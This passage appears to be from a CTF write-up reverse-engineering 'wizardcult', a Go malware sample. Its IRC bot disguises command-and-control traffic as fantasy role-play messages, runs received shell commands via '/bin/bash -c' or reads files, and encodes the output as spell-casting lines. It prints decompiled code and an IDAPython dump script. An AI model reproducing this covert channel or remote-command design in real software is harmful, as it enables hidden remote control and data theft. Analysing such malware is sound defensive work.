                        dungeon_end_24d,
                        dungeon_found_32);

      if ( dungeon_found_32 ) {
        potion_struct = *runtime_mapaccess1_faststr(&glo_maptype, *(a4 + 56), potion_idx, dungeon_idxd);
        new_str_1 = new_str;
        potion_struct->ingr_str = new_str;
        new_len_1 = new_len;
        potion_struct->ingr_len = new_len;
        if ( runtime_writeBarrier ) {
          p_ingredient_bytes = &potion_struct->ingredient_bytes;
          vm_insns = ingr_table_1;
          runtime_gcWriteBarrierBX();
        }
        else {
          vm_insns = ingr_table_1;
          potion_struct->ingredient_bytes = ingr_table_1;
        }

        wizardcult_vm_LoadProgram(vm_insns, new_str_1, new_len_1);
        
        v32 = *(a4 + 56);
        v119 = dungeon_end_16c;
        v33 = *runtime_mapaccess1_faststr(&glo_maptype, v32, potion_idx, dungeon_idxd);
        if ( runtime_writeBarrier ) {
          p_ingredient_bytes = &v33->vm_obj;
          runtime_gcWriteBarrier();
        }
        else  {
          v33->vm_obj = v119;
        }

        runtime_convTstring(potion_idx, dungeon_idxd);// prepare response
        *&v122 = &qword_6E9400;
        *(&v122 + 1) = dungeon_end_8a;

        /* Reply with "I have now learned to brew the %s"
           using github_com_lrstanley_girc___ptr_Client__Send */
      }
      else {                                     // potion not found
        /* Send "That is a very weird potion, I don't trust that" using
           github_com_lrstanley_girc___ptr_Client__Send */
      }
    }

    if ( strings_Index(a1_msg, a2_len, "It stares at you imposingly.", 28LL) >= 0 ) {
      encounter_idx = strings_Index(a1_msg, a2_len, "encounter a ", 12LL);
      distance_idx = strings_Index(a1_msg, a2_len, " in the distance.", 17LL);
      if ( a2_len < distance_idx )
        runtime_panicSliceAlen(v42, dungeon_endb);
      if ( encounter_idx + 12 > distance_idx )
        runtime_panicSliceB();
      v93 = distance_idx;
      imp_idx = strings_Index(a1_msg, a2_len, "imposingly.", 11LL);
      what_do_u_do = strings_Index(a1_msg, a2_len, " What do you do?", 16LL);
      dragon_idx = &a1_msg[((12 - (v93 - encounter_idx)) >> 63) & (encounter_idx + 12)];
      if ( a2_len < what_do_u_do )
        runtime_panicSliceAlen(v43, dungeon_endc);
      p_beast_str = imp_idx;
      if ( imp_idx + 12 > what_do_u_do )
        runtime_panicSliceB();
      dungeon_idxb = v93 - encounter_idx - 12;
      dragon = dragon_idx;
      wizardcult_potion_FindPotionByFlavor(     // Find potion
        a4,
        &a1_msg[((12 - (what_do_u_do - imp_idx)) >> 63) & (imp_idx + 12)],//  The beast smells ....
        what_do_u_do - imp_idx - 12);           // len
      if ( potion_1 && potion_1->ingr_str && potion_1->func_ptr ) {
        /* send "I quaff my potion and attack!" */

        // RUN THE VM!
        dungeon_end_16e = (*potion_2->func_ptr)(potion_2, potion_2->dungeon_descr, potion_2->dungeon_descr_len);
        dungeon_bytesa = runtime_stringtoslicebyte(
                           v101,
                           dungeon_end_16e,
                           what_do_u_do,
                           dungeon_end_16e,
                           what_do_u_do,
                           dungeon_found_32);
        // Send VM output?
        wizardcult_comms_CastSpells(dragon, dungeon_idxb, dungeon_end_16f, dungeon_end_24c, dungeon_found_32b, a3);
        v122 = 0LL;
        runtime_convTstring(dragon, dungeon_idxb);
        *&v122 = &qword_6E9400;
        *(&v122 + 1) = dungeon_end_8b;
        fmt_Sprintf(
          p_beast_str,
          dungeon_idxb,
          v20,
          &qword_6E9400,
          v21,
          v22,
          "I do believe I have slain the %s",
          32LL,
          &v122,
          1LL,
          1LL);
        v112 = *(a3 + 360);
        v108 = dungeon_found_32c;
        dungeon_endo = runtime_newobject(&qword_731540);
        ptr = dungeon_endo;
        dungeon_endo->vm_obj = 7LL;
        dungeon_endo->ingr_len = "PRIVMSG";
        msg_5 = runtime_newobject(&unk_6EB820);
        v23 = msg_5;
        msg_5->chan.len = 8LL;
        msg_5->chan.ptr = "#dungeon";
        msg_5->msg.len = dungeon_bytesa;
        if ( runtime_writeBarrier )
          v23 = runtime_gcWriteBarrierCX();
        else
          msg_5->msg.ptr = v108;
        v24 = ptr;
        ptr->beast_len = 2LL;
        *(v24 + 72) = 2LL;
        if ( runtime_writeBarrier )
          runtime_gcWriteBarrier();
        else
          *(v24 + 56) = v23;
        github_com_lrstanley_girc___ptr_Client__Send(*v112, v24);
      }
      else {
        /* Send back "I don't have a potion that can handle this! I run away in fear"
           using github_com_lrstanley_girc___ptr_Client__Send */
      }
    }

    if ( strings_Index(a1_msg, a2_len, "you enter the dungeon", 21LL) >= 0 ) {
      dungeon_idx = strings_Index(a1_msg, a2_len, "the dungeon ", 12LL);
      dungeon_found_24 = strings_Index(a1_msg, a2_len, ".", 1LL);
      if ( a2_len < dungeon_found_24 )
        runtime_panicSliceAlen(v41, dungeon_end);
      if ( dungeon_idx + 12 > dungeon_found_24 )
        runtime_panicSliceB();
      itis_idx = dungeon_found_24;
      it_is = strings_Index(a1_msg, a2_len, "It is ", 6LL);
      descr = &a1_msg[((12 - (itis_idx - dungeon_idx)) >> 63) & (dungeon_idx + 12)];
      if ( a2_len < it_is + 6 )
        runtime_panicSliceB();
      descr_len = itis_idx - dungeon_idx - 12;
      descr_ = descr;
      dungeon_bytes_len = strings_Replace(
                            &a1_msg[((6 - (a2_len - it_is)) >> 63) & (it_is + 6)],
                            a2_len - it_is - 6,
                            ".",
                            1LL,
                            0LL,
                            0LL,
                            -1LL);
      strings_genSplit(dungeon_bytes_len, new_len, ", ", 2LL, 0LL, -1LL);
      loc_len = new_len;
      wizardcult_tables_GetBytesFromTable(      // Contains a shell command e.g., 'ls /mages_tower'
        dungeon_bytes_,
        dungeon_bytes_len,
        new_len,
        wizardcult_tables_DungeonDescriptions,
        *(&wizardcult_tables_DungeonDescriptions + 1));
      dungeon_bytes_1 = dungeon_bytes_;
      wizardcult_potion_FindPotionByDungeon(a4, descr_, descr_len);
      if ( dungeon_found ) {
        dungeon = dungeon_found;
        dungeon_found_32a = runtime_slicebytetostring(0LL, dungeon_bytes_1, dungeon_bytes_len, *&dungeon_found);
        v7 = dungeon;
        dungeon->dungeon_descr_len = dungeon_end_24b;
        if ( runtime_writeBarrier ) {
          loc_len = &v7->dungeon_descr;
          runtime_gcWriteBarrier();
        }
        else {
          v7->dungeon_descr = dungeon_end_16a;
        }
        v122 = 0LL;
        runtime_convTstring(descr_, descr_len);
        *&v122 = &qword_6E9400;
        *(&v122 + 1) = dungeon_end_8;
        fmt_Sprintf(
          loc_len,
          dungeon_bytes_len,
          v8,
          &qword_6E9400,
          v9,
          v10,
          "I draw my sword and walk forward into %s carefully, my eyes looking for traps and my ears listening for enemies.",
          112LL,
          &v122,
          1LL,
          1LL);
        v117 = *(a3 + 360);
        v106 = dungeon_found_32a;
        irc_cmd.ptr = runtime_newobject(&qword_731540);
        ptr = irc_cmd.ptr;
        *(irc_cmd.ptr + 48) = 7LL;
        *(irc_cmd.ptr + 40) = "PRIVMSG";
        msg_2 = runtime_newobject(&unk_6EB820);
        msg_2->chan.len = 8LL;
        msg_2->chan.ptr = "#dungeon";
        msg_2->msg.len = dungeon_bytes_;
        if ( runtime_writeBarrier )
          msg_2 = runtime_gcWriteBarrierCX();
        else
          msg_2->msg.ptr = v106;
        v12 = ptr;
        ptr->beast_len = 2LL;
        *(v12 + 72) = 2LL;
        if ( runtime_writeBarrier )
          runtime_gcWriteBarrier();
        else
          *(v12 + 56) = msg_2;
        github_com_lrstanley_girc___ptr_Client__Send(*v117, v12);
      }
      else {                                     // dungeon not found!
        
        /* Send back "I've never heard of this dungeon before. I immediately turn around and leave because I am too scared"
           using github_com_lrstanley_girc___ptr_Client__Send */
      }
    }
  }
}
```

There are many interesting things happening here. First, the server-side client checks whether
the client has sent a message that contains the `, what is your quest?` and if so it replies with
`My quest is to retrieve the Big Pterodactyl Fossil`. Then client replies with
`welcome to the party.`. This message is an indication to start the C&C process and enables a flag
in order for the client to continue. If the server-side client does not receive this message it
does not processes any further messages.
Then client replies with a very long message that contains a list of ingredients:
```
$NAME, you have learned how to create the Potion of $POTION. To brew it you must combine $INGREDIENT_LIST
```

Function uses the `wizardcult_tables_GetBytesFromTable` to convert these ingredients into bytes.
The index of each ingredient in `wizardcult_tables_Ingredients` becomes the next byte value:
```
wizardcult_tables_Ingredients = ['bone', 'undead eyeball', ... 'ruby vial', 'kernels of grain']
```

If decoding is successful, server-side client invokes `wizardcult_vm_LoadProgram` to initialize the 
*received VM* and replies with `I have now learned to brew the $POTION`.
Then client replies with another list of dungeon descriptions (which is basically the shell command
to execute or the file to load):
```
$NAME, you enter the dungeon $DUNGEON_NAME. It is $DESCRIPTION_LIST
```

Like before, function `wizardcult_tables_GetBytesFromTable` is used to convert the dungeon
descriptions into a string array:
```
wizardcult_tables_DungeonDescriptions = ['peculiar', 'wee', ... 'grim', 'german', 'utter']
```

If parsing is successfully (and dungeon exists) server-side client replies with:
```
I draw my sword and walk forward into %s carefully, my eyes looking for traps and my ears listening for enemies.
```

Then client replies with the following message, which is an indication to start fetching the C&C
output:
```
$NAME, you encounter a $NAME in the distance. It stares at you imposingly. $BEAST_DESCR. What do you do?
```

Then server-side client runs the VM, encodes the output and starts sending the replies:
```
// RUN THE VM! (function pointer set on main_main_func1)
dungeon_end_16e = (*potion_2->func_ptr)(potion_2, potion_2->dungeon_descr, potion_2->dungeon_descr_len);

/* ... */

// Send VM output?
wizardcult_comms_CastSpells(dragon, dungeon_idxb, dungeon_end_16f, dungeon_end_24c, dungeon_found_32b, a3);
```

The output from the server-side client output looks like:
```
I quaff my potion and attack!
I cast Moonbeam on the Goblin for 205d205 damage!
I cast Reverse Gravity on the Goblin for 253d213 damage!
I cast Water Walk on the Goblin for 216d195 damage!
I cast Mass Suggestion on the Goblin for 198d253 damage!
I cast Planar Ally on the Goblin for 199d207 damage!
I cast Water Breathing on the Goblin for 140d210 damage!
I cast Conjure Barrage on the Goblin for 197d168 damage!
I cast Water Walk on the Goblin for 204d198 damage!
I cast Call Lightning on the Goblin for 193d214 damage!
I cast Branding Smite on the Goblin!
I do believe I have slain the Goblin
```

It is also important to highlight that throughout this communication, the server-side client uses
the `wizardcult_potion_FindPotionByDungeon` and `wizardcult_potion_FindPotionByFlavor` functions
to ensure that the request will match with the replied (e.g., belong to the same "potion").

Before we analyze the VM, let's see how `wizardcult_comms_CastSpells` encodes the output:
```c
void __golang wizardcult_comms_CastSpells(__int64 a1, __int64 a2, __int64 a3, unsigned __int64 a4, int a5, __int64 a6) {
  /* Decls */
  leftover = a4 - 3 * ((a4 + ((a4 * 0xAAAAAAAAAAAAAAABLL) >> 64)) >> 1);

  while ( i < (v7 - leftover) ) {
    spell = 0LL;
    v51 = 0LL;
    v52 = 0LL;
    v53 = 0LL;
    if ( v7 <= i )
      runtime_panicIndex(v30, v32);
    spell_idx = *(v9 + i);
    if ( qword_942F28 <= spell_idx )
      runtime_panicIndex(v30, v32);
    i_ = i;
    runtime_convTstring(wizardcult_tables_Spells[2 * spell_idx], wizardcult_tables_Spells[2 * spell_idx + 1]);
    spell.ptr = &qword_6E9400;
    spell.len = v35;
    runtime_convTstring(a1, a2);
    v51.ptr = &qword_6E9400;
    v51.len = v35;
    if ( a4 <= i_ + 1 )
      runtime_panicIndex(v31, v33);
    v13 = *(i_ + a3 + 1);
    v6 = byte_6E95C0;
    *&v52 = byte_6E95C0;
    *(&v52 + 1) = &runtime_staticuint64s + 8 * v13;
    if ( a4 <= i_ + 2 )
      runtime_panicIndex(v31, v33);
    v14 = *(i_ + a3 + 2);
    v53.ptr = byte_6E95C0;
    v53.len = &runtime_staticuint64s + 8 * v14;
    fmt_Sprintf(                                // prepare IRC send
      byte_6E95C0,
      i_ + 2,
      a3,
      "I cast %s on the %s for %dd%d damage!",
      &runtime_staticuint64s,
      v12,
      "I cast %s on the %s for %dd%d damage!",
      37LL,
      &spell,
      4LL,
      4LL);

    /* Send message using github_com_lrstanley_girc___ptr_Client__Send */
    
    i = i_ + 3;                                 // increment by 3!
    
    leftover = a4 - 3 * ((a4 + ((a4 * 0xAAAAAAAAAAAAAAABLL) >> 64)) >> 1);
    v9 = a3;
    v7 = a4;
  } 
                                              // WHILE LOOP END
  /* Handle leftovers */
  if ( leftover == 1 ) {
    /* Send "I cast %s on the %s!" */
  } else if ( leftover == 2 ) {
    /* Send "I cast %s on the %s for %d raw damage!" */
  }
}
```

Function takes as input the VM output, and splits its into triplets. The first byte is used as an
index into `wizardcult_tables_Spells` table:
```
wizardcult_tables_Spells = ['Eldritch Blast', 'Mass Heal', 'Fireball', ... 'Thunderwave', 'Hallow']
```

The next **2** bytes are printed as they are. Function also takes care of any leftovers at the end.

All tables are shown in [tables.txt](./tables.txt). To dump the tables we used the following 
IDAPython script:
```python
# Note: Make sure program is loaded and all tables have been initialized.
def read_table(tbl_addr):    
    tbl_off = ida_bytes.get_qword(tbl_addr)
    tbl_len = ida_bytes.get_qword(tbl_addr + 8)

    tbl_entries = []

    for i in range(tbl_len):
        str_off = ida_bytes.get_qword(tbl_off + i*16)
        str_len = ida_bytes.get_qword(tbl_off + i*16 + 8)

        tbl_entries.append(''.join(chr(ida_bytes.get_byte(str_off + j)) for j in range(str_len)))

    return tbl_entries

wizardcult_tables_DungeonDescriptions = read_table(0x942EA0)
wizardcult_tables_Ingredients = read_table(0x942EC0)
wizardcult_tables_Names = read_table(0x942EE0)
wizardcult_tables_Places = read_table(0x942F00)
wizardcult_tables_Spells = read_table(0x942F20)
```

### Loading the VM

Let's recap: The client gets connected to the server-side client and sends him a VM along with a
shell command (or a file path) as input. The VM executes the command (or reads the file), encodes
the output using `wizardcult_comms_CastSpells` and then sends it back to the client.

The first important function is `wizardcult_vm_LoadProgram` which initializes the received VM
program:
```c
Program_struct *__usercall wizardcult_vm_LoadProgram@<rax>(__int64 a1_vm_insns, char *a2_str, size_t a3_len) {
  /*  Decls & initializations */

  encoding_gob_NewDecoder(&go_itab__bytes_Buffer_io_Reader, vm);
  encoding_gob___ptr_Decoder__Decode(dec_obj, &qword_6FE4C0, v31);

  Links = v31[2].Links;
  if ( v31[3].Magic > 0 )
  {
    end = v31[3].Magic;
    for ( i = 0LL; ; i = i_ + 1 ) {
      i_ = i;
      v33 = Links;
      RHDevice = Links->RHDevice;
      LHReg = Links->LHReg;
      RHReg = Links->RHReg;
      option = Links->LHDevice;
      v32 = runtime_makechan(&glo_channel, 0LL);
      if ( option ) {
        if ( option == 1 ) {
          p_Links = &v31->Links;
          vm_func = &go_itab__wizardcult_vm_OutputDevice_wizardcult_vm_Device;
        }
        else {
          RAMs = v31[1].RAMs;
          if ( option - 2 >= RAMs ) {
            v17 = option - RAMs;
            Input = v31[2].Input;
            if ( v17 - 2 >= Input ) {
              v19 = v17 - Input;
              ROMs = v31[2].ROMs;
              if ( ROMs <= v19 - 2 ) {
                vm_func = 0LL;
                p_Links = 0LL;
              }
              else {
                if ( ROMs <= (v19 - 2) ) runtime_panicIndex(v21, v23);
                p_Links = (v31[2].CPUs + 0x50 * v19 - 0xA0);
                vm_func = &go_itab__wizardcult_vm_RAM_wizardcult_vm_Device;
              }
            }
            else {
              if ( v17 - 2 >= Input ) runtime_panicIndex(v21, v23);
              p_Links = (v31[2].Magic + 0x50 * v17 - 0xA0);
              vm_func = &go_itab__wizardcult_vm_ROM_wizardcult_vm_Device;
            }
          }
          else {
            if ( option - 2 >= RAMs ) runtime_panicIndex(v21, v23);
            p_Links = (v31[1].ROMs + 0x60 * option - 0xC0);
            vm_func = &go_itab__wizardcult_vm_Cpu_wizardcult_vm_Device;
          }
        }
      }
      else {
        p_Links = &v31->Input;
        vm_func = &go_itab__wizardcult_vm_InputDevice_wizardcult_vm_Device;
      }

      v22 = p_Links;

      (vm_func->setchan_fptr)();

      if ( RHDevice ) {
        if ( RHDevice == 1 ) {
          p_Input = &v31->Links;
          vm_func_2 = &go_itab__wizardcult_vm_OutputDevice_wizardcult_vm_Device;
        }
        else {
          v11 = v31[1].RAMs;
          if ( RHDevice - 2 >= v11 ) {
            v12 = RHDevice - v11;
            v13 = v31[2].Input;
            if ( v12 - 2 >= v13 ) {
              v14 = v12 - v13;
              v15 = v31[2].ROMs;
              if ( v14 - 2 >= v15 ) {
                vm_func_2 = 0LL;
                p_Input = 0LL;
              }
              else {
                if ( v14 - 2 >= v15 ) runtime_panicIndex(v22, LHReg);
                p_Input = (v31[2].CPUs + 80 * v14 - 160);
                vm_func_2 = &go_itab__wizardcult_vm_RAM_wizardcult_vm_Device;
              }
            }
            else {
              if ( v12 - 2 >= v13 ) runtime_panicIndex(v22, LHReg);
              p_Input = (v31[2].Magic + 80 * v12 - 160);
              vm_func_2 = &go_itab__wizardcult_vm_ROM_wizardcult_vm_Device;
            }
          }
          else {
            if ( RHDevice - 2 >= v11 ) runtime_panicIndex(v22, LHReg);
            p_Input = (v31[1].ROMs + 96 * RHDevice - 192);
            vm_func_2 = &go_itab__wizardcult_vm_Cpu_wizardcult_vm_Device;
          }
        }
      }
      else {
        p_Input = &v31->Input;
        vm_func_2 = &go_itab__wizardcult_vm_InputDevice_wizardcult_vm_Device;
      }

      (vm_func_2->setchan_fptr)(p_Input, RHReg, v32);
      
      if ( end <= i_ + 1 ) break;
      Links = v33 + 1;
    }
  }
  return v31;
}
```

After the VM description is decoded into a byte array, it is fed in to a
[gob decoder](https://pkg.go.dev/encoding/gob). Gob is similar to pickle in Python and it is used
to pack and unpack Go objects. Function `encoding_gob___ptr_Decoder__Decode` decodes the
VM byte array into a Go object. After some searching, we find
[degob](https://github.com/drosseau/degob), which is used to convert the VM input into go objects.
Here are the object structs:
```golang
// type ID: 67
type  struct {
  Name string
}

// type ID: 71
type []vm.Cpu []Cpu

// type ID: 68
type Cpu struct {
  Acc int64
  Dat int64
  Pc int64
  Cond int64
  Instructions []vm.Instruction
}

// type ID: 70
type []vm.Instruction []Instruction

// type ID: 73
type []int []int64

// type ID: 69
type Instruction struct {
  Opcode int64
  A0 int64
  A1 int64
  A2 int64
  Bm int64
  Cond int64
}

// type ID: 72
type ROM struct {
  A0 int64
  A1 int64
  Data []int
}

// type ID: 76
type []vm.RAM []RAM

// type ID: 75
type RAM struct {
  A0 int64
  A1 int64
  Data []int
}

// type ID: 65
type Program struct {
  Magic int64
  Input InputDevice
  Output OutputDevice
  0
  ROMs []vm.ROM
  RAMs []vm.RAM
  Links []vm.Link
}

// type ID: 74
type []vm.ROM []ROM

// type ID: 77
type Link struct {
  LHDevice int64
  LHReg int64
  RHDevice int64
  RHReg int64
}

// type ID: 66
type InputDevice struct {
  Name string
}

// type ID: 78
type []vm.Link []Link
```

The most important part here is the `Link` struct which is used to create "links" between VM
devices. The `ROM`, `RAM`, `Cpu`, `InputDevice` and `OutputDevice` are all *"devices"*. To create
a link, `wizardcult_vm_LoadProgram` invokes the `*__SetChannel` function of the two devices that
participate in the link:
```
wizardcult_vm___ptr_Cpu__SetChannel
wizardcult_vm___ptr_InputDevice__SetChannel
wizardcult_vm___ptr_OutputDevice__SetChannel
wizardcult_vm___ptr_ROM__SetChannel
wizardcult_vm___ptr_RAM__SetChannel
```

We will see later on how links work.

### Running the VM

Once the VM is loaded and configured, the server-side client waits for the client to start running
it. Recall from `main_main_func1` that **2** potions contain function pointers to the following
functions: `wizardcult_potion_CommandPotion` and `wizardcult_potion_ReadFilePotion`. These function
are invoked inside `wizardcult_comms_ProcessDMMessage`:
```
(*potion_2->func_ptr)(potion_2, potion_2->dungeon_descr, potion_2->dungeon_descr_len);
```

The `wizardcult_potion_CommandPotion` is fairly simple:
```c
__int64 __usercall wizardcult_potion_CommandPotion@<rax>(__int64 a1, __int128 a2) {
  arg.ptr = "-c";
  arg.len = 2LL;
  
  v18 = os_exec_Command("/bin/bash", 9LL, &arg, 2LL, 2);
  os_exec___ptr_Cmd__Output(v18, v5, v9, cmd_out_8, v18);
  
  /* ... */  

  if ( cmd_out.len ) {
    v26 = v6;
    v22 = v10;
    v8 = (*(cmd_out.len + 24))(v19);
    runtime_convTstring(v8, v10);
    v27.ptr = &qword_6E9400;
    v27.len = v10;
    fmt_Fprintln(&go_itab__os_File_io_Writer, os_Stdout, &v27, 1LL, 1LL);
    v2 = v22;
    v3 = v26;
  }

  v20 = runtime_slicebytetostring(v24, v3, v2, *&cmd_out);
  runtime_stringtoslicebyte(v23, v12, cmd_out_8a, v12, cmd_out_8a, v20);
  v7 = cmd_outa;
  cmd_outb.ptr = v21;
  wizardcult_vm___ptr_Program__Execute(ctx, v7, cmd_outb.len);

  /* ... */
}
```

Function runs a shell command: `/bin/bash -c $CMD`, where `$CMD` is taken from Dungeon description.
Then it invokes `wizardcult_vm___ptr_Program__Execute` and passes the command output as input to the
vm. `wizardcult_potion_ReadFilePotion` is the same but instead it invokes `os_ReadFile` to read
the file that is given in Dungeon description and then uses the file contents as input to the vm.


The `wizardcult_vm___ptr_Program__Execute` runs all **5** devices in parallel (using `procs`),
it properly initializes the channels based on the links and uses `chansend1` and `chanrecv1` to
coordinate all devices.
```c
runtime_newproc(0x10u, glo_wizardcult_vm___ptr_InputDevice__Execute_ptr, v46 + 8);
runtime_newproc(0x10u, &glo_wizardcult_vm___ptr_OutputDevice__Execute_ptr, a1_ctx + 48);
runtime_newproc(0x10u, &glo_wizardcult_vm___ptr_Cpu__Execute_ptr, a1_ctx_[11] + 0x60 * ii);
runtime_newproc(0x10u, &glo_wizardcult_vm___ptr_ROM__Execute_ptr, a1_ctx_[14] + 0x50 * jj);
runtime_newproc(0x10u, glo_wizardcult_vm___ptr_RAM__Execute_ptr, a1_ctx_[17] + 0x50 * kk);
```

Let's see the `wizardcult_vm___ptr_Cpu__Execute` which executes the instructions:
```c
Cpu_struct *__usercall wizardcult_vm___ptr_Cpu__Execute@<rax>(__int64 *insn, __int64 a2) {
  /* ... */
  while ( 1 ) {                                 // repeat CPU insns in loop until there are no data available
    runtime_selectnbrecv(0LL, a2_, v8);         // non blocking receive from the channel
    if ( rval )
      break;                                    // if no data available, break
    v3 = insn[2];
    if ( v3 >= insn[5] )
      runtime_panicIndex(v6, v7);
    wizardcult_vm___ptr_Cpu__ExecuteInstruction(
      insn,
      *(insn[4] + 0x30 * v3),
      *(insn[4] + 0x30 * v3 + 0x10),
      *(insn[4] + 0x30 * v3 + 0x20),
      *(insn[4] + 0x30 * v3 + 0x28));

    /* ... */

    pc = insn[2] + 1;                           // PC 
    insn[2] = pc;
    if ( insn[5] <= pc )
      insn[2] = 0LL;                            // Loop back! (reset pc)
  }
  /* ... */
}
```

Based on the opcode, `wizardcult_vm___ptr_Cpu__ExecuteInstruction` executes the appropriate
instruction:
```c
__int64 __usercall wizardcult_vm___ptr_Cpu__ExecuteInstruction@<rax>(Cpu_struct *a1_insn,
        __int128 a2_opcode, __int128 a3, __int64 a4, __int64 a5_cond) {
  if ( !a5_cond || a1_insn->Cond == a5_cond ) { // Execute only if condition is 0 or it matches
                                                // the condition in the instruction
    if ( a2_opcode > 9 ) {
      if ( a2_opcode > 13 ) {
        if ( a2_opcode > 17 ) {
          switch ( a2_opcode ) {
            case 0x12LL:
              wizardcult_vm___ptr_Cpu__ExecuteXor(a1_insn, 18, *(&a2_opcode + 1), a3, SDWORD2(a3), a4);
              return v6;
            case 0x13LL:
              wizardcult_vm___ptr_Cpu__ExecuteShl(a1_insn, 19, *(&a2_opcode + 1), a3, SDWORD2(a3), a4, a5_cond);
              return v6;
            case 0x14LL:
              return wizardcult_vm___ptr_Cpu__ExecuteShr(a1_insn, 20, *(&a2_opcode + 1), a3, DWORD2(a3), a4, a5_cond);
          }
        }
        else if ( a2_opcode == 16LL ) {
          wizardcult_vm___ptr_Cpu__ExecuteAnd(a1_insn, 16, *(&a2_opcode + 1), a3, SDWORD2(a3), a4);
          return v6;
        }
        else if ( a2_opcode == 17LL ) {
          return wizardcult_vm___ptr_Cpu__ExecuteOr(a1_insn, 17, *(&a2_opcode + 1), a3, DWORD2(a3), a4, a5_cond);
        }
      }
      else if ( a2_opcode > 11 ) {
        if ( a2_opcode == 12LL ) {
          wizardcult_vm___ptr_Cpu__ExecuteDiv(a1_insn, 12, *(&a2_opcode + 1), a3, SDWORD2(a3), a4);
          return v6;
        }
        else {
          result = 0xFFFFFFFFLL;
          a1_insn->Acc ^= 0xFFFFFFFFuLL;
        }
      }
      else {
        if ( a2_opcode == 10LL )
          wizardcult_vm___ptr_Cpu__ExecuteSub(a1_insn, 10, *(&a2_opcode + 1), a3, SDWORD2(a3), a4);
        else
          return wizardcult_vm___ptr_Cpu__ExecuteMul(a1_insn, a2_opcode, *(&a2_opcode + 1), a3, DWORD2(a3), a4, a5_cond);
        return v6;
      }
    }
    else if ( a2_opcode > 5 ) {
      if ( a2_opcode > 7 ) {
        if ( a2_opcode == 8LL )
          wizardcult_vm___ptr_Cpu__ExecuteTcp(a1_insn, 8, *(&a2_opcode + 1), a3, SDWORD2(a3), a4);
        else
          wizardcult_vm___ptr_Cpu__ExecuteAdd(a1_insn, a2_opcode, *(&a2_opcode + 1), a3, SDWORD2(a3), a4);
        return v6;
      }
      else {
        if ( a2_opcode == 6LL )
          wizardcult_vm___ptr_Cpu__ExecuteTgt(a1_insn, 6, *(&a2_opcode + 1), a3, SDWORD2(a3), a4);
        else
          wizardcult_vm___ptr_Cpu__ExecuteTlt(a1_insn, a2_opcode, *(&a2_opcode + 1), a3, SDWORD2(a3), a4);
        return v6;
      }
    }
    else if ( a2_opcode > 1 ) {
      if ( a2_opcode == 2LL ) {
        result = *(&a2_opcode + 1);
        a1_insn->Pc = *(&a2_opcode + 1);
      }
      else if ( a2_opcode == 5LL ) {
        wizardcult_vm___ptr_Cpu__ExecuteTeq(a1_insn, 5, *(&a2_opcode + 1), a3, SDWORD2(a3), a4);
        return v6;
      }
    }
    else if ( a2_opcode ) {
      if ( a2_opcode == 1LL ) {
        wizardcult_vm___ptr_Cpu__ExecuteMov(a1_insn, 1, *(&a2_opcode + 1), a3, SDWORD2(a3), a4);
        return v6;
      }
    }
  }
  return result;
}
```

The individual instruction names are pretty self-explanatory, so we won't get into details.
Now let's move to `Input` & `Output` devices that program uses them read and write sequentially
to them:
```c
__int64 __usercall wizardcult_vm___ptr_InputDevice__Execute@<rax>(__int64 a1, unsigned __int64 a2) {
  /* ... */
  while ( 1 ) {
    v5 = 0LL;
    runtime_chanrecv1(*(a1 + 0x18), &v5);
    cas0.hchan = *(a1 + 0x10);
    cas0.elem = &v5;
    v12 = a2;
    runtime_selectgo(&cas0, &order0, 0, 1LL, 1LL, 1);
    result = v3;
    if ( !v3 )
      break;
    if ( v3 == 1 )
      return result;
  }

  v9 = *(a1 + 0x18);
  v10 = &v4;
  v8 = a2;
  runtime_selectgo(&v8, v6, 0, 0LL, 2LL, 1);
  return 0LL;
}

__int64 __usercall wizardcult_vm___ptr_OutputDevice__Execute@<rax>(__int64 a1, unsigned __int64 a2) {
  /* ... */
  while ( 1 ) {
    v10 = *(a1 + 16);
    v11 = &v6;
    v9 = a2;
    runtime_selectgo(&v9, v8, 0, 0LL, 2LL, 1);
    result = v4;
    if ( !v4 )
      break;
    if ( v4 == 1 ) {
      v3 = *(a1 + 24);
      v5 = v6;
      v12[0] = v3;
      v12[1] = &v5;
      v13 = a2;
      runtime_selectgo(v12, v7, 0, 1LL, 1LL, 1);
    }
    else {
      runtime_morestack_noctxt();
    }
  }
  return result;
}
```

Then we move on the `ROM` device which is, as its name suggests, for Read-Only, Random Access:
```c
__int64 __usercall wizardcult_vm___ptr_ROM__Execute@<rax>(my_ROM_struct *a1, __int64 a2) {
  /* ... */
  a1_ = a1;
  for ( a2_ = a2; ; a2_ = a2 )
  {
    chan_1 = a1_->chan_1;
    A0 = a1_->A0;
    A1 = a1_->A1;
    chan_2 = a1_->chan_2;
    if ( a1_->A0 >= a1_->data_size )            // A0 is the index
      runtime_panicIndex(v17, v18);
    rom_a0 = *(a1_->data_ptr + 8 * a1_->A0);    // ROM[A0] ?
    chan_3 = a1_->chan_3;
    A1_ = a1_->A1;
    if ( A1_ >= a1_->data_size )
EXCEPTION:
      runtime_panicIndex(v17, v18);
    rom_a1 = *(a1_->data_ptr + 8 * A1_);        // A1 is the index too
    (loc_46D602)();
    cas0[8].hchan = chan_1;
    cas0[8].elem = &v22;
    cas0[7].hchan = v8;
    cas0[7].elem = &v21;
    cas0[6].hchan = v9;
    cas0[6].elem = &v20;
    cas0[5].hchan = v10;
    cas0[5].elem = &v27;
    cas0[0].hchan = chan_1;
    cas0[0].elem = &A0;
    cas0[1].hchan = v11;
    cas0[1].elem = &A1;
    cas0[2].hchan = chan_2;
    cas0[2].elem = &rom_a0;
    cas0[3].hchan = chan_3;
    cas0[3].elem = &rom_a1;
    cas0[4].hchan = a2_;
    runtime_selectgo(cas0, order0, 0, 4LL, 5LL, 1);// pc0 = nil
    result = scase_selected;
    if ( scase_selected )
    {
      if ( scase_selected != 1 )
        break;
    }
LOOP_AGAIN:
    a1_ = a1;
    // a1[0] = *a1 = A0
    // a1[1] = A1
    // a1[3] = upper bound
  }
  if ( scase_selected == 2 )
  {
    v13 = a1->A0 + 1;                           // A0++
    a1->A0 = v13;
    if ( a1->data_size <= v13 )
      a1->A0 = 0LL;
    goto LOOP_AGAIN;
  }
  if ( scase_selected == 3 )
  {
    v14 = a1->A1 + 1;                           // A1++
    a1->A1 = v14;
    if ( a1->data_size <= v14 )
      a1->A1 = 0LL;
    goto LOOP_AGAIN;
  }
  if ( scase_selected != 4 )
  {
    switch ( scase_selected )
    {
      case 5LL:                                 // A1++
        v15 = a1->A1 + 1;
        a1->A1 = v15;
        if ( a1->data_size <= v15 )
          a1->A1 = 0LL;
        break;
      case 6LL:
        v16 = a1->A0 + 1;                       // A0++
        a1->A0 = v16;
        if ( a1->data_size <= v16 )
          a1->A0 = 0LL;
        break;
      case 7LL:
        a1->A1 = v21;                           // A1 = (value from register)
        break;
      case 8LL:
